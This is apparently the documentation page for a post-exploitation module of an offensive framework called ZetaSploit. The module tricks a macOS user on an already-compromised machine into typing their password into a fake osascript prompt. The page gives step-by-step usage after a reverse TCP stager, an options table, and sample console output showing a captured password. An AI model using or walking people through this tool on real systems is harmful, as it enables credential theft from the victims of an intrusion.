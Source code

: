 # `post/macos/zetant/gather/prompt`

## Vulnerable Application

This module uses system `osascript` to prompt user to type password.

## Verification Steps

1. Start ZetaSploit
2. Run `exploit/macos/stager/zetant_reverse_tcp` on target
3. Do: `use post/macos/zetant/gather/prompt`
4. Do: `set SESSION` to your target session
5. Do: `run`

## Options

| Option    | Default Value | Required | Description        |
|-----------|---------------|----------|--------------------|
| `SESSION` | 0             | True     | Session to run on. |

**SESSION**

Variable that contains session id to run post module on it.

## Scenarios

```
(zsf: post: macos/zetant/gather/prompt)> run
[*] Waiting for prompt window to appear...
[*] Waiting for user to type password...
[i] User entered: mysuperstrongpassword1234
(zsf: post: macos/zetant/gather/prompt)>
```
